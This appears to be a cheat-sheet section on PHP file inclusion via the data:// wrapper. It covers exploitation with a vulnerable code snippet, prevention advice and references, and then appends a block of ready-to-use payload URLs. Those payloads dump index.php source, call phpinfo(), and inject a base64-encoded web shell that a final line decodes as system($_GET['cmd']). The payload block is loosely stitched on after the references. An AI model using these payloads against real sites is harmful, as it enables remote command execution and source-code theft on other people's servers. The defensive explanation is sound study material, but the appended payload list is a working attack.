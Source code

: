 #### Exploitation

To exploit a file inclusion vulnerability using the `data://` protocol, an attacker can craft a malicious payload that includes the desired file. The payload can be injected into a vulnerable parameter, such as a URL query parameter or a file path.

For example, if the vulnerable application constructs a file path like this:

```
$file = $_GET['file'];
$path = "/var/www/html/files/" . $file;
```

An attacker can manipulate the `file` parameter to include arbitrary files:

```
http://example.com/page.php?file=data://text/plain;base64,SGVsbG8gV29ybGQhCg==
```

In this example, the attacker includes the contents of a text file encoded in base64. The `data://` protocol allows the attacker to specify the MIME type and encoding of the data being included.

#### Prevention

To prevent file inclusion vulnerabilities, it is important to validate and sanitize all user-supplied input used to construct file paths. Avoid using user input directly in file paths and instead use a whitelist approach to only allow specific files or directories to be included.

Additionally, consider implementing access controls to restrict the files that can be included and ensure that sensitive files are not accessible through the web server.

#### References

- [OWASP File Inclusion Vulnerability](https://owasp.org/www-community/attacks/File_Inclusion)
- [PHP Manual - Data Stream Wrappers](https://www.php.net/manual/en/wrappers.data.php)
```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```